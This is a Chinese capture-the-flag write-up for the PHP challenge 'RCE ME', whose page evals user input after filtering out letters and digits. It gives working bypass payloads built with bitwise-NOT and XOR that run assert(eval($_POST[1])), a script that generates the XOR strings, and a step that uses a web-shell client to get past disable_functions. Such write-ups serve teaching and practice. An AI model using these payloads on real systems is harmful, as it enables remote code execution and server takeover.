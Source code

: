 # [极客大挑战 2019]RCE ME

## 知识点

`正则表达式绕过`

`异或绕过`

`取反绕过`

## 解题

题目直接给出了源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>

```

发现会过滤`大小写字母和数字`，可以使用`取反绕过`和`异或绕过`

### 1.取反绕过
```php
<?php
echo urlencode(~'phpinfo'); // %8F%97%8F%96%91%99%90
```

![](img/[极客大挑战2019]RCEME-1.png)

然后尝试构造`assert(eval($_POST[1]))`

```php
<?php
echo urlencode(~'assert');  // %9E%8C%8C%9A%8D%8B

echo urlencode(~'eval($_POST[1])');     // %9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6
```

![](img/[极客大挑战2019]RCEME-2.png)

可以实现`RCE`，只是`disable_function`太多，用`蚁剑`连接后使用插件`绕过disable_function`，可以一个个试,我这里用的是`PHP7_Backtrace_UAF`

![](img/[极客大挑战2019]RCEME-3.png)


### 2.异或绕过

生成异或内容的脚本
```php
<?php
function gen($pl) {
    $aa = "";
    $bb = "";
    for ($j = 0; $j < strlen($pl); $j++) {
        for ($i = 0xa0; $i < 0xff; $i++) {
            if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i)) == 0) {
                $t = chr($i) ^ $pl[$j];
                if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $t) == 0) {
                    $aa .= chr($i);
                    $bb .= $t;
                    break;
                }
            }
        }
    }
    return str_replace("%", "\x", urlencode($aa) . "^" . urlencode($bb) . "\r\n");
}
function gen_url($pl) {
    $aa = "";
    $bb = "";
    for ($j = 0; $j < strlen($pl); $j++) {
        for ($i = 0xa0; $i < 0xff; $i++) {
            if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i)) == 0) {
                $t = chr($i) ^ $pl[$j];
                if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $t) == 0) {
                    $aa .= chr($i);
                    $bb .= $t;
                    break;
                }
            }
        }
    }
    return urlencode($aa) . "^" . urlencode($bb). "\r\n";
}

echo gen("_GET");
echo gen_url("_GET");


echo "\n";
echo "\xA0\xA0\xA0\xA0"^"\xFF\xE7\xE5\xF4";
echo "\n";

echo "\n";
echo urldecode("%A0%A0%A0%A0")^urldecode("%FF%E7%E5%F4");
echo "\n";
```

![](img/[极客大挑战2019]RCEME-4.png)

后续和上面相同即可
